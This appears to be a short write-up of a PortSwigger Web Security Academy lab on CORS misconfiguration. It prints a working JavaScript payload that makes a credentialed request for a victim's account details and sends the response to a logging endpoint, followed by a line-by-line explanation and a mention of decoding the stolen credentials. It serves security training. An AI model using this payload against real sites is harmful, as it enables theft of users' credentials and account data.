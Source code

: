 1. The following script is delivered to the victim:

	```
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener;
		req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
		req.withCredentials = true;
		req.send();

		function reqListener() {
		   location='/log?key='+this.responseText;
		};
	</script>
	```
	**_The script does the following:_**   
		// Create an XMLHttpRequest instance.   
		// Set the event handler that will be called when the response is received.   
		// opening a GET request to the URL to retrieve account details   
		// Sending cookies and HTTP authentication information in the request   
		// Sending the request   
		// Event handler function called when a response is received from the server   
		// forwarding the current page to a log file with the received response text as parameter   
	
2.After supposedly executing the script on victims machine his credentials get logged:     

	![grafik](https://user-images.githubusercontent.com/62068604/235902320-15feb06d-f392-40da-9c8d-b718e698a4df.png)

3. Decoding victim's credentials via Burp Decoder:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)
